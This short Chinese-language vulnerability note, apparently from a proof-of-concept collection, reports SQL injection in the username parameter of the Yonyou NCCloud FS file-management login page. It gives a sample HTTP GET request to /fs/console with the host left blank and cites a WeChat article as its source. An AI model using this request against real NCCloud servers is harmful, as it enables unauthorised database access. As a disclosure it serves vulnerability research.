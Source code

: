 # 用友 NCCloud FS文件管理SQL注入

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入.

poc:

```
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: 
...
//登录处username参数
```

from:https://mp.weixin.qq.com/s/jb7XeLGvdyNrF1xQFsXDjA
